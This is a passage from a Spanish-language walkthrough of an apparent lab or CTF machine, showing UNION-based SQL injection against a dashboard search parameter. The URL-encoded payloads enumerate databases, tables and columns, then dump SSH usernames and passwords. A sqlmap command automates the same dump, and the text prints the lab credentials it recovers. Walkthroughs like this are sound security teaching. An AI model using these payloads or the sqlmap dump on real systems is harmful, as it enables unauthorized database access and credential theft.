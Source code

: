 ![image](https://github.com/user-attachments/assets/702ee405-f275-4d7c-a37e-946773ad87b3)

ahora tenemos una credencial valida

```bash
admin:2O]L)W{6c>Xx=Eu2#SV82%O%$#W}b3<
```

solo que esta credencial no es valida para un acceso via ssh, por lo que vamos a buscar mas bases de datos, vamos a extraer todas las bases de datos

```bash
http://172.17.0.2/dashboard.php?search_term=-1%27%20union%20select%201,2,group_concat(schema_name),4,5%20from%20information_schema.schemata--%20-
```

![image](https://github.com/user-attachments/assets/83ef2548-7413-42b1-8425-3034706afef8)

la que parece de interes es `secret_db` asi que vamos a extraer informacion de ella a continuacion

```bash
http://172.17.0.2/dashboard.php?search_term=-1%27%20UNION%20SELECT%201,2,GROUP_CONCAT(table_name),4,5%20FROM%20information_schema.tables%20WHERE%20table_schema=%27secret_db%27--%20-
```

![image](https://github.com/user-attachments/assets/88785c93-6fd3-4c8d-8731-4c762091dde8)

por lo visto solo tiene una tabla asi que extraemos informacion de la tabla `secret` 

```bash
http://172.17.0.2/dashboard.php?search_term=-1%27%20UNION%20SELECT%201,2,GROUP_CONCAT(column_name),4,5%20FROM%20information_schema.columns%20WHERE%20table_schema=%27secret_db%27--%20-
```

![image](https://github.com/user-attachments/assets/1488f537-2c7f-48e3-ae84-b5c477d17cbd)

ahora podemos ver las columnas `id,ssh_users,ssh_pass` por lo que vamos a extraer la informacion finalmente

```bash
http://172.17.0.2/dashboard.php?search_term=-1%27%20UNION%20SELECT%201,2,group_concat(ssh_users,%27:%27,ssh_pass),4,5%20from%20secret_db.secret--%20-
```

![image](https://github.com/user-attachments/assets/4b2e3e5c-40c0-46aa-b5e0-0e6a054b63a0)

y obtenemos las credenciales: `sam:$uper$ecretP4$$w0rd123` por lo que accedemos via ssh

![image](https://github.com/user-attachments/assets/21008830-ac7b-49ce-befb-76e35d222ffc)

si quieres ahorrarte todo el proceso de explotacion manual de sql, podemos automatizar el proceso con sqlmap ejecutando

```bash
sqlmap -u 'http://172.17.0.2/dashboard.php?search_term=test' --cookie=PHPSESSID=f6bbt7ba2dr8sofum5ed6g8j43 --dbms=MySQL -D secret_db -T secret -C ssh_users,ssh_pass --dump
```

